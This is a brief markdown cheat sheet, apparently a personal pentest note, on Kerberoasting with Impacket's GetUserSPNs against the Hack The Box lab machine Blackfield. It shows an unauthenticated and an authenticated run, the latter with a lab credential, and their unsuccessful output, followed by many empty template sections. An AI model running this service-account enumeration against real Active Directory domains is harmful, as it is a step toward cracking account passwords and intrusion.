 # Kerberoasting with GetUserSPNs

[Powershell - List all SPNs in Active Directory](https://techexpert.tips/powershell/powershell-list-all-spns-active-directory/)

### TLDR
```
GetUserSPNs BLACKFIELD.local/
GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
```
### Without creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

### With creds; HTB Blackfield
```
$ GetUserSPNs BLACKFIELD.local/support:'#00^BlackKnight'
Impacket v0.11.0 - Copyright 2023 Fortra

No entries found!
```
### 
```

```

### 
```

```
### Examples 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
### 
```

```
